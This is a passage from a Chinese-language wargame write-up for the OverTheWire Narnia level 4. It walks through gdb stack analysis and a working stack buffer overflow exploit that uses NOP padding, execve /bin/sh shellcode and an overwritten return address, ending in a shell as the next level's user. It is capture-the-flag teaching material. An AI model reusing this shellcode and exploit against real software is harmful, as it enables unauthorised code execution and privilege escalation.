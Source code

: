 ```sh
0xffffd600: 0x0804824c  0xf7fcaff4
```

看一下框架的信息会给我们返回地址,从中我们可以找到堆栈的大小:

```sh
(gdb) i f
Stack level 0, frame at 0xffffd5e0:
 eip = 0x80484fa in main; saved eip 0xf7e404b3
 Arglist at 0xffffd5d8, args:
 Locals at 0xffffd5d8, Previous frame's sp is 0xffffd5e0
 Saved registers:
  ebp at 0xffffd5d8, edi at 0xffffd5d4, eip at 0xffffd5dc
(gdb) p 0xffffd5dc-0xffffd4cc
$1 = 272
```



### Step 4: 编写和应用开发

我们知道堆栈的大小是272字节，而返回地址是**0xffffd5dc**.如果我们添加返回地址，它的值是276.

现在我们可以自由选择放置我们的shell代码了.比如说,我们把它放在中间的某个地方,例如,在134的位置.在内存中,我们得到: ```0xffffd5cc - 134 = 0xffffd546```.

因为276-134等于142, 如果我们将返回地址指向**0xffffd546**,它会到达堆栈的第142位并执行那里的任何东西. 我们要确保返回地址总是以shell代码的地址结束因为这个原因我们用NOPs填充地址.


我们将从之前的级别借用shell代码，它的大小是25字节:

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80
```

考虑上面的值，我们可以编写下面的开发:

```
`python -c "print '\x90'*142 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*105 + '\x46\xd5\xff\xff'"`
```

我们可以用另一个地址来制作另一个版本的开发. 然后我们只需要调整我们的NOPs和我们的挂线. 例如, ```0xffffd5cc - 120 = 0xffffd554```:

```
`print -c "'\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'" `
```

都可以运行.

我们最终应用了我们的开发:
```
narnia4@melinda:/tmp$ python -c "print '\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'"
������������������������������������������������������������������������������������������������������������������������������������������������������������1�Ph//shh/bin��P��P���
              AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAT���
narnia4@melinda:/tmp$ /narnia/narnia4 `python -c "print '\x90'*156 + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x50\x89\xe1\xb0\x0b\xcd\x80' + 'A'*91 + '\x54\xd5\xff\xff'"`
$ whoami
narnia5
```



----------

好了，我们已经完成了纳尼亚的一半挑战。很快我就会发布另一篇文章讲述另一半故事.
